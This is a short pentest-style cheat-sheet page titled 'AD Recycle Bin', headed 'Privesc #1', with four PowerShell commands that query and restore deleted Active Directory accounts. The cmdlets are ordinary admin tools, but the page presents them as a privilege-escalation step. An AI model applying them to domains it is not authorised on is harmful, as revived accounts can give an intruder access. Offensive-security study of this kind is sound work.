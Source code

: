 ```yaml
---
title: "AD Recycle Bin"
date: 2024-7-13
tags: ["ad recycle bin", "active driectory", "ad", "Windows"]
---
```


---
### Privesc #1: Restore deleted AD account

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import AD module

<div>

```powershell
import-module activedirectory
```

</div>

#### 2. Query all deleted objects within domain

<div>

```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

</div>

#### 3. Get all details for the deleted account

<div>

```powershell
Get-ADObject -filter { SAMAccountName -eq "<DELETED_USER>" } -includeDeletedObjects -property *
```

</div>

#### 4. Restore deleted account

<div>

```powershell
# Rename the target account to avoid user exist error
Restore-ADObject -Identity <ObjectGUID> -NewName <NEW_USER> -TargetPath "CN=Users,DC=<EXAMPLE>,DC=<COM>"
```

</div>

{{< /tabcontent >}}

<br>